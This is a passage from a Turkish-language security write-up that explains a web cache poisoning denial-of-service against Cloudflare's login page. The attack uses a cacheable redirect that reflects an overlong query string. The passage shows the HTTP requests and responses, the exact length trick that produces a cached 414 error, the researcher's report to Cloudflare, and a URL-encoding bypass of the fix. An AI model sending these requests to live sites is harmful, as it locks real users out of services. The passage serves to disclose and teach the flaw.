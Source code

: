 ```bash
GET /login?x=very-long-string... HTTP/1.1
Host: www.cloudflare.com
Origin: https://dontpoisoneveryone/
```

Daha sonra başka biri giriş sayfasını ziyaret etmeye çalıştığında doğal olarak uzun bir sorgu dizesi içeren bir yönlendirme alacaktır:

```bash
GET /login HTTP/1.1
Host: www.cloudflare.com
Origin: https://dontpoisoneveryone/
```

```bash
HTTP/1.1 301 Moved Permanently
Location: /login/?x=very-long-string...
```

Tarayıcıları bu yönlendirmeyi otomatik olarak takip ettiğinde, query den önce path yoluna eklenen ekstra `/` URI'yi bir bayt daha uzun hale getirir ve bunun sunucu tarafından engellenmesine neden olur:

```bash
GET /login/?x=very-long-string... HTTP/1.1
Host: www.cloudflare.com
Origin: https://dontpoisoneveryone/
```

```bash
HTTP/1.1 414 Request-URI Too Large
CF-Cache-Status: MISS
```

Yani tek bir istekle Cloudflare'in giriş sayfasına giden bu rotayı ısrarla kapatabiliriz. Buradaki `Origin: https://dontpoisoneveryone/` başlığını güvenli test için eklemiştik. Eğer bu başlığı kaldırıp bu isteği önbelleğe aldırırsak, [cloudflare.com/login](http://cloudflare.com/login) üzerinden giriş yapmaya çalışan herkesin oturumuna mani olabiliriz. 

**Ayrıca lütfen dikkat edin, bunların hepsi yönlendirme sayesindedir**; Cloudflare 414 gibi bir hata durum koduna sahip herhangi bir yanıtı önbelleğe almayı reddettiği için aşırı uzun URI'yi kendimiz göndererek bu saldırıyı yapamayız. Tam sınırdaki sayıda(aşırı uzundan 1 bayt kısa) karakter içermeli. Zaten yönlendirme sırasında path yoluna yeni bir `/` karakteri eklendiği için saldırı mümkün olur. 

Buradaki örnek üzerinden de gördüğümüz gibi; aktif olarak kullanılan ve sorgu parametrelerini yansıtan önbelleğe alınabilir bir yönlendirme bulursanız, hedef sayfa önbelleğe alınabilir olmasa veya aynı domain üzerinde olmasa bile, yönlendirme hedefine parametreler enjekte ederek DoS gibi zafiyetleri ortaya çıkabilirsiniz.

Araştırmacı bu durumu Cloudflare’a iletmiş ve query değerini yansıtan yönlendirme yanıtlarının önbelleğe alınmasını önleyerek çözüm sunmuşlar. Fakat araştırmacı URL encoding ile bu önlemi de atlatmış:

```bash
GET /login?x=%6cong-string… HTTP/1.1
Host: www.cloudflare.com
```
